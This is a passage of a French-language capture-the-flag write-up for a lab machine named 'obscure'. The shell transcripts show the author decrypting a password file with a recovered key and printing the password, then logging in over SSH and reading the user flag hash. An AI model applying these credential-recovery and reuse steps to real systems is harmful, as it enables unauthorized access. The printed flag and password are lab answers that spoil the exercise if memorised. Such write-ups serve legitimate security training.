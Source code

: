 La clé est donc alexandrovich. Décrypter passwordreminder.txt

~~~
www-data@obscure:/tmp$ cd /home/robert                                      
cd /home/robert
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i passwordreminder.txt -o /tmp/password.txt -k alexandrovich -d
txt -k alexandrovich -dt.py -i passwordreminder.txt -o /tmp/password.t
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/password.txt...
www-data@obscure:/home/robert$ cat /tmp/password.txt
cat /tmp/password.txt
SecThruObsFTW
www-data@obscure:/home/robert$ 
~~~

On peut se connecter via SSH en utilisant le mdp qu'on vient de trouver:

~~~
root@Host-001:~# ssh robert@10.10.10.168
The authenticity of host '10.10.10.168 (10.10.10.168)' can't be established.
ECDSA key fingerprint is SHA256:H6t3x5IXxyijmFEZ2NVZbIZHWZJZ0d1IDDj3OnABJDw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.168' (ECDSA) to the list of known hosts.
robert@10.10.10.168's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar 20 07:35:03 UTC 2020

  System load:  0.0               Processes:             125
  Usage of /:   45.9% of 9.78GB   Users logged in:       1
  Memory usage: 11%               IP address for ens160: 10.10.10.168
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

40 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Mar 20 06:51:41 2020 from 10.10.15.244
robert@obscure:~$ cd /home/robert
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
robert@obscure:~$ 
~~~
